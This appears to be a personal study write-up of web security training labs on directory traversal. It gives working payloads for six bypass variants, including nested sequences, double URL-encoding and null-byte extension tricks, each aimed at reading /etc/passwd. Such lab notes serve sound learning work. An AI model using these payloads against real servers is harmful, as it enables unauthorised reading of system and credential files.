 # Directory Traversal 

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. 

UNIX system              ../

Windows system works     ../ and ..\ 


```GET /image?filename=../../../etc/passwd```

```GET /image?filename=/etc/passwd ```

### File path traversal, simple case

This lab contains a file path traversal vulnerability in the display of product images.

**Solution**
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the *filename* parameter, giving it the value:

    ``` ../../../etc/passwd ```

3. Observe that the response contains the contents of the */etc/passwd* file.

**My comment**

```GET /image?filename=../../../etc/passwd```

### File path traversal, traversal sequences blocked with absolute path bypass

This lab contains a file path traversal vulnerability in the display of product images.
The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

**Solution**
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the *filename* parameter, giving it the value */etc/passwd*.
3. Observe that the response contains the contents of the */etc/passwd* file.

**My comment**

```GET /image?filename=/etc/passwd```

### File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.
The application strips path traversal sequences from the user-supplied filename before using it.

**Solution**
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the filename parameter, giving it the value:

    ```....//....//....//etc/passwd```

3. Observe that the response contains the contents of the /etc/passwd file.

**My comment**

```GET /image?filename=....//....//....//etc/passwd```

It could be use nested traversal sequences ```....// or ....\/ ```

### File path traversal, traversal sequences stripped with superfluous URL-decode

**Solution**

1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the filename parameter, giving it the value:

    ```..%252f..%252f..%252fetc/passwd```

3. Observe that the response contains the contents of the /etc/passwd file.

**My comment**

```..%252f..%252f..%252fetc/passwd``` or ```%2e%2e%2f or %252e%252e%252f```

Various non-standard encodings, such as ```..%c0%af``` or ```..%ef%bc%8f```, may also do the trick.

### File path traversal, validation of start of path

This lab contains a file path traversal vulnerability in the display of product images.
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

**Solution**
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the *filename* parameter, giving it the value:

    ```/var/www/images/../../../etc/passwd```

3. Observe that the response contains the contents of the */etc/passwd* file.

**My comment**

```GET /image?filename=/var/www/images/../../../etc/passwd```

### File path traversal, validation of file extension with null byte bypass

This lab contains a file path traversal vulnerability in the display of product images.
The application validates that the supplied filename ends with the expected file extension.

**Solution**
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the filename parameter, giving it the value:

    ```../../../etc/passwd%00.png```

3. Observe that the response contains the contents of the /etc/passwd file.

**My comment**

```GET /image?filename=../../../etc/passwd%00.png```